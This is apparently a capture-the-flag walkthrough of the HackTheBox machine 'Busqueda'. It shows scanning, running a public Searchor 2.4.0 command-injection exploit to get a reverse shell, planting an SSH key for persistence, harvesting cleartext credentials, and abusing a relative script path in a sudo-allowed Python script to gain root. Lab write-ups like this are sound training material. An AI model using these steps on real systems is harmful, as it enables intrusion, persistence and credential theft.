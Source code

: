 # Busqueda - Easy

```sh
sudo vim /etc/hosts
# map busqueda.htb

nmap -T4 -p- -A -Pn -v busqueda.htb
```

* Open ports & services:

    * 22/tcp - ssh - OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    * 80/tcp - http - Apache httpd 2.4.52

* Trying to navigate to <http://busqueda.htb> leads us to another domain <http://searcher.htb>, so we have to add this in our hosts file too:

    ```sh
    sudo vim /etc/hosts
    # map searcher.htb
    ```

* This leads us to the page for 'Searcher', a collection of search engines - we have an input box for our query; the footer mentions [Searchor](https://github.com/ArjunSharda/Searchor) 2.4.0, the app on which it is based

* Googling for exploits related to Searchor 2.4.0 leads us to [exploit for arbitrary command injection](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection) - this takes advantage of an ```eval()``` function, which can be used for code execution:

    ```sh
    wget https://raw.githubusercontent.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/refs/heads/main/exploit.sh -O searchor-2.4.0-exploit.sh
    # fetch the exploit script

    chmod +x searchor-2.4.0-exploit.sh

    nc -nvlp 4444
    # setup listener

    ./searchor-2.4.0-exploit.sh http://searcher.htb 10.10.14.33 4444
    # gives reverse shell
    ```

* We get the reverse shell after running the exploit:

    ```sh
    id
    # svc

    ls -la /home
    # only one user

    cd
    
    ls -la
    # get user flag

    # for persistent SSH session

    mkdir .ssh

    cd .ssh

    # in attacker machine
    ssh-keygen -f svc
    # generate keys without passphrase

    chmod 600 svc

    cat svc.pub
    # copy pub key contents

    # in reverse shell
    echo "ssh-ed..." > authorized_keys
    # paste the pub key contents

    chmod 600 authorized_keys

    # now we can SSH into this without passphrase
    ssh -i svc svc@busqueda.htb
    ```

* We can start with basic enumeration:

    ```sh
    sudo -l
    # this needs password, we do not have it

    ls -la /home
    
    ls -la /var/www
    # check web directory

    ls -la /var/www/app
    # we have a lot of files here
    ```

* Going through the files in the webapp directory, we have a config file at ```/var/www/app/.git/config``` - this includes a cleartext password 'jh1usoih2bkjaspwe92' for user 'cody', it also mentions the domain 'gitea.searcher.htb', so we can add it in ```/etc/hosts```

* When we visit this domain, we can use the above creds to login, but we only have one project to explore - and that is the searcher site itself; other than that the recent activity mentions 'administrator' user

* We can check for password re-use for 'svc' user, and it works:

    ```sh
    sudo -l
    # use found password
    # it works

    # our user can run the following as root
    # (root) /usr/bin/python3 /opt/scripts/system-checkup.py *

    cat /opt/scripts/system-checkup.py
    # permission denied

    # we can try running the command itself once
    sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
    ```

* On running the Python script as root, we are given 3 possible actions, and we can pass 2 arguments:

    * docker-ps - list running Docker containers
    * docker-inspect - inspect certain Docker container
    * full-checkup - run full system checkup

    ```sh
    sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
    # lists containers
    # we have 'gitea' and 'mysql_db'

    sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
    # needs 2 arguments - format and container_name

    sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
    # we get an error message 'something went wrong'

    # for the docker-inspect command, we need the arguments according to the actual 'docker inspect' command
    # checked from docker docs

    sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' gitea
    # this prints out complete output in json, but it is cluttered

    sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db
    
    # copy the output and parse it using jq
    # remove the initial '--format' so that the content is in JSON format, otherwise we cannot parse it
    echo -n "<output from previous command>" | jq .
    ```

* After reading the 'docker-inspect' outputs for both containers, we have a couple of cleartext creds 'gitea:yuiu1hoiu4i5ho1uh' and 'gitea:jI86kGUuj87guWr3RyF' for Gitea & mySQL database, respectively

* We can try reusing these creds for 'root' user but it does not work; we can also check it on the Gitea server at <http://gitea.searcher.htb>

* We are able to reuse one of the above passwords for the user 'administrator' found earlier on the Gitea server - we have one more project 'scripts' to check now

* This project includes all the scripts from ```/opt/scripts``` that we were not able to read earlier as 'svc' - we can check these scripts, especially 'system-checkup.py' which can be run as root:

    ```py
    #!/bin/bash
    import subprocess
    import sys

    actions = ['full-checkup', 'docker-ps','docker-inspect']

    def run_command(arg_list):
        r = subprocess.run(arg_list, capture_output=True)
        if r.stderr:
            output = r.stderr.decode()
        else:
            output = r.stdout.decode()

        return output


    def process_action(action):
        if action == 'docker-inspect':
            try:
                _format = sys.argv[2]
                if len(_format) == 0:
                    print(f"Format can't be empty")
                    exit(1)
                container = sys.argv[3]
                arg_list = ['docker', 'inspect', '--format', _format, container]
                print(run_command(arg_list)) 
            
            except IndexError:
                print(f"Usage: {sys.argv[0]} docker-inspect <format> <container_name>")
                exit(1)
        
            except Exception as e:
                print('Something went wrong')
                exit(1)
        
        elif action == 'docker-ps':
            try:
                arg_list = ['docker', 'ps']
                print(run_command(arg_list)) 
            
            except:
                print('Something went wrong')
                exit(1)

        elif action == 'full-checkup':
            try:
                arg_list = ['./full-checkup.sh']
                print(run_command(arg_list))
                print('[+] Done!')
            except:
                print('Something went wrong')
                exit(1)
                

    if __name__ == '__main__':

        try:
            action = sys.argv[1]
            if action in actions:
                process_action(action)
            else:
                raise IndexError

        except IndexError:
            print(f'Usage: {sys.argv[0]} <action> (arg1) (arg2)')
            print('')
            print('     docker-ps     : List running docker containers')
            print('     docker-inspect : Inpect a certain docker container')
            print('     full-checkup  : Run a full system checkup')
            print('')
            exit(1)
    ```

* For the 'full-checkup' command, we can see it mentions the script ```./full-checkup.sh``` in the argument list - here it does not go for the complete path of the script, so we can abuse this

* As the code mentions ```./full-checkup.sh``` (instead of full path), we can run this script as root from any directory with a malicious 'full-checkup.sh', and that will be executed:

    ```sh
    cd /tmp

    vim full-checkup.sh
    # malicious script to print root flag
    # we can write reverse-shell one-liner as well but not needed

    chmod +x full-checkup.sh

    # now we can run the sudo command
    sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
    # this prints the root flag
    ```

    ```sh
    #!/bin/bash
    cat /root/root.txt
    ```
